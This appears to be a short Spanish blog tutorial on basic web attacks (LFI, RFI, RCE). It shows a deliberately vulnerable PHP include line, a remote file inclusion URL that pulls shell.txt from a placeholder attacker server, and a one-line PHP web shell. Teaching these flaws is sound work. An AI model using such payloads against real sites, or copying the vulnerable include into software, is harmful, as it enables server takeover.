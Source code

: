 ```yaml
---
layout: post
title:  "Aprendiendo a identificar los diferentes ataques basicos a nivel Web"
description: Aprendiendo sobre las Vulnerabilidades " LFI // RFI // RCE "
tags: Web Attacks
---
```

Empezaremos por aprender las principales Vulnerabilidades a nivel Web
  
1 ~ LFI ~   Local File Inclusion
2 ~ RFI ~   Remote File Inclusion
3 ~ RCE ~   Remote Code Execution

1.- La vulnerabilidad de Local File Inclusion se produce como consecuencia de un fallo en la programación de la página, filtrando inadecuadamente lo que se incluye al usar funciones en PHP para incluir archivos.
Para poder corroborar si un sitio es vulnerable, se puede colocar un valor ilógico a la variable. 
En nuestro ejemplo tenemos: "http://localhost/index.php?page=" donde se coloca un valor, en este caso http://localhost/index.php?page=78se3, algo aleatorio que no se encuentre registrado.
Si arroja un error como Warning: main()… o Warning: include()… o similar entonces es probable que sea vulnerable a RFI o LFI

{% PHP - LFI Codigo Vulnerable por Detras %}
<?php
include $_GET[‘pagina’];
?>
{% endhighlight %}


La vulnerabilidad de Remote File Inclusion se produce cuando:

Una página vulnerable que presente un aspecto similar a este en su URL:   " http://[servidor_victima]/index.php?page=plantilla.html "

El atacante (Nosotros) podriamos obtener una Shell en el servidor vulnerable mediante lo siguiente:

---
http://[servidor_victima]/index.php?page=http://[servidor_atacante]/shell.txt&&cmd=ls
---

Pudiendo contener el archivo shell.txt cualquier código, por ejemplo:
--- 
<?php
  system($cmd);
?>
---
